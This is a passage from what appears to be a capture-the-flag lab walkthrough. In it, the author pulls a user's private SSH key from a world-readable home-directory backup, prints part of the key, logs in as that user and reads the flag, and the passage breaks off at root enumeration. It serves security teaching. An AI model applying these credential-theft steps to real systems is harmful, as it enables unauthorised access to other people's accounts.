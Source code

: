     
    
    www-data@thenotebook:/var/backups$ tar -tvf home.tar.gz 
    drwxr-xr-x root/root         0 2021-02-12 06:24 home/
    drwxr-xr-x noah/noah         0 2021-02-17 09:02 home/noah/
    -rw-r--r-- noah/noah       220 2018-04-04 18:30 home/noah/.bash_logout
    drwx------ noah/noah         0 2021-02-16 10:47 home/noah/.cache/
    -rw-r--r-- noah/noah         0 2021-02-16 10:47 home/noah/.cache/motd.legal-displayed
    drwx------ noah/noah         0 2021-02-12 06:25 home/noah/.gnupg/
    drwx------ noah/noah         0 2021-02-12 06:25 home/noah/.gnupg/private-keys-v1.d/
    -rw-r--r-- noah/noah      3771 2018-04-04 18:30 home/noah/.bashrc
    -rw-r--r-- noah/noah       807 2018-04-04 18:30 home/noah/.profile
    drwx------ noah/noah         0 2021-02-17 08:59 home/noah/.ssh/
    -rw------- noah/noah      1679 2021-02-17 08:59 home/noah/.ssh/id_rsa
    -rw-r--r-- noah/noah       398 2021-02-17 08:59 home/noah/.ssh/authorized_keys
    -rw-r--r-- noah/noah       398 2021-02-17 08:59 home/noah/.ssh/id_rsa.pub
    

It looks to be noah’s home directory, and there’s a private key in `.ssh`.
I’ll read the key from the archive (without extracting it to disk first to not
make a mess):

    
    
    www-data@thenotebook:/var/backups$ tar xf home.tar.gz -O home/noah/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
    HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
    ...[snip]...
    Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
    -----END RSA PRIVATE KEY-----
    

### SSH

The key works to SSH as noah:

    
    
    oxdf@parrot$ ssh -i ~/keys/thenotebook_noah noah@10.10.10.230
    ...[snip]...
    noah@thenotebook:~$ 
    

And I can grab the `user.txt`:

    
    
    noah@thenotebook:~$ cat user.txt
    68aa2b88************************
    

## Shell as root

### Enumeration

noah can run `sudo` to run `docker` as root to start a specific set of
containers:
